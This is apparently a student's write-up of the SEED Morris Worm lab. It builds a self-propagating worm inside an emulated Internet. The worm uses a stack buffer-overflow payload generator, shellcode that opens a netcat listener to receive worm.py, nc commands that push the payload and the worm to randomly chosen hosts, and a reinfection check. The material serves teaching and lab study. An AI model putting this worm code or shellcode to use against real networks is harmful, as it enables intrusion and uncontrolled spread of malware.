

# The Morris Worm Lab

The Morris worm (November 1988) was one of the oldest computer worms distributed via the Internet, and the first to gain significant mainstream media attention [1]. While it is old, the techniques used by most worms today are still the same, such as the WannaCry ransomware in 2017. They involve two main parts: attack and self-duplication. The attack part exploits a vulnerability (or a few of them), so a worm can get entry to another computer. The self-duplication part is to send a copy of itself to the compromised machine, and then launch the attack from there. A detailed analysis of the Morris worm was given by Spafford [2]. The goal of this lab is to help students gain a better understanding of the behavior of worms, by writing a simple worm and testing it in a contained environment (an Internet emulator). Although the title of this lab is called Morris worm, the underneath technique used is quite generic. We have broken down the technique into several tasks, so students can build the worm incrementally. For testing, we built two emulated Internets, a small one and a larger one. Students can release their worms in each of these Internets, and see how their worms spread across the entire emulated Internet. The lab covers the following topics:

- Buffer-overflow attack
- Worm’s self-duplication and propagation behavior
- The SEED Internet emulator
- Network tools

## Source Code

See [worm.py](https://github.com/timyiu478/seed-labs/blob/main/labs/Morris_Worm/Labsetup/worm/worm.py)

## Morris Worm DEMO


## Task 1: Attack the First Target

The worm exploit the Buffer-overflow vulnerability to allow the worm to run on the target machine.

### Step 1: Disable the Address Randomization

> Note: This kernel parameter is global, so once we turn it off from the host machine, all the containers are affected.

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0 
```

All the non-router containers in the emulator run the **same vulnerable server**. With the address randomization disabled, all the servers will have the identical parameters, the addresses of the buffer and the value of the frame pointers will be the same across all the containers. The attack part is the same as the Level-1 task in the Buffer-Overflow Lab, so if students have worked on that lab before, they can reuse the code from that lab here. We will not duplicate the instruction in this lab. Students can read the lab description of the Buffer-Overflow Lab (server version) to learn the setup of the server and the guidelines on the attack.

### Step 2: Generate the malicious payload for the buffer-overflow attack

#### Attack Idea



#### 2.1. send a hello message to the target server for getting the address of the buffer and the frame pointer. The server will print out the address of the buffer and the frame pointer. The server will also print out the size of the input message. The address of the buffer and the frame pointer are printed in hexadecimal format.

```bash
root@7e27f0bf5973:/# echo hello | nc -w2 10.151.0.71 9090
as151h-host_0-10.151.0.71           | Starting stack
as151h-host_0-10.151.0.71           | Input size: 6
as151h-host_0-10.151.0.71           | Frame Pointer (ebp) inside bof():  0xffffd5e8
as151h-host_0-10.151.0.71           | Buffer's address inside bof():     0xffffd578
as151h-host_0-10.151.0.71           | ==== Returned Properly ====
```

#### 2.2 Craft the malicious payload for injecting the shellcode into the target server.

code snippet:

```python
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   base_pointer   = 0xffffd5e8
   buffer_address = 0xffffd578

   offset = base_pointer - buffer_address + 4
   ret    = buffer_address + 500 - len(shellcode)

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
```

Buffer Overflow Vulnerability:

```c
int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];

    int length = fread(str, sizeof(char), 517, stdin);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size
// 1000 (approximately) between main's and bof's stack frames.
// The function itself does not do anything.
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```

#### 2.3. Run the attack

```bash
root@f2c7a61d156d:~# ./worm.py
The worm has arrived on this host ^_^
**********************************
>>>>> Attacking 10.151.0.71 <<<<<
**********************************
PING 1.2.3.4 (1.2.3.4) 56(84) bytes of data.
```

Server Output:

```bash
as151h-host_0-10.151.0.71           | Starting stack
as151h-host_0-10.151.0.71           | (^_^) Shellcode is running (^_^)
```

#### DEMO

https://github.com/user-attachments/assets/f16e8541-c8a8-4d06-85eb-18a65f79716b

### Step 3: Self Duplication

Divide the attack code into two parts, a small payload that contains a simple pilot code, and a larger payload that contains more sophisticated code. The pilot code is the shellcode included in the malicious payload in the buffer-overflow attack. Once the attack is successful and the pilot code runs a shell on the target, it can use shell commands to fetch the larger payload from the attacker machine, completing the self duplication.

Code snippet of the pilot code:

```
shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   # You can put your commands in the following three lines. 
   # Separating the commands using semicolons.
   # Make sure you don't change the length of each line. 
   # The * in the 3rd line will be replaced by a binary zero.
   " echo '(^_^) Shellcode is running (^_^)';                   "
   " nc -lnv 8080 > /home/worm.py; chmod +x /home/worm.py;      " # Server receives the worm.py from the attacker
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
   # The last line (above) serves as a ruler, it is not used
).encode('latin-1')
```
 
Code snippet of sending the worm to the target host:

```python
while True:
    targetIP = getNextTarget()

    # Send the malicious payload to the target host
    print(f"**********************************", flush=True)
    print(f">>>>> Attacking {targetIP} <<<<<", flush=True)
    print(f"**********************************", flush=True)
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Give the shellcode some time to run on the target host
    time.sleep(1)

    # Send the worm to the target host
    subprocess.run([f"cat ~/worm.py | nc -w5 {targetIP} 8080"], shell=True)

    # Sleep for 10 seconds before attacking another host
    time.sleep(5) 

    # Remove this line if you want to continue attacking others
    exit(0)
```

### Step 4: Propagation

Things need to be done in the propagation part:

1. how to find the next target: in this lab, we use a simple random approach which generate a random IP address in the range of `10.X.0.Y` as the next target where `X` is form `151` to `155` and `Y` is from `70` to `80`.
2. test if the target is alive and reachable from the attacker: in this lab, we use the `ping` command for testing.

Related Code snippets:

```python
# Find the next victim (return an IP address).
# Check to make sure that the target is alive. 
def getNextTarget():
   return "10.{X}.0.{Y}".format(X=randint(151, 155), Y=randint(70, 80))

# Check if the target is alive
def isAlive(targetIP):
   response = subprocess.run([f"ping -q -c 1 -W 1 {targetIP}"] , capture_output=True, text=True, check=False, shell=True) # -c1: send 1 packet, -W1: wait 1 second
   result = response.returncode

   if result == -1:
      return False
   else:
      return True
```

### Step 5: Avoid the self infection

The problem of self infection is that it will cause the host run multiple copies of the worm, which will consume the CPU and memory resources. We do not want to break down or deny the service of the host. So we need a checking mechanism to avoid self infection. 

My approach is running a TCP server on the host, and the worm will check if the server is running by sending a custom PING message to the server. If the server is running, it will reply with a PONG message. The worm will not attack the host if it receives a PONG message.

Related Code snippets:

```python
def runTCPServer():
    # Create a TCP socket
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_address = ('0.0.0.0', 17777)
    sock.bind(server_address)
    sock.listen(1)

    while True:
        conn, address = sock.accept()
        data  = conn.recv(1024)
        if data == b'AreUWorm':
            conn.sendall(b'IamWorm')
        conn.close()

def checkIfInfected(targetIP):
    # Create a TCP socket
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_address = (targetIP, 17777)
    sock.settimeout(3)

    try:
        sock.connect(server_address)
        sock.sendall(b'AreUWorm')
        data = sock.recv(1024)
        if data == b'IamWorm':
            return True
    except:
        pass
    finally:
        sock.close()

    return False
```
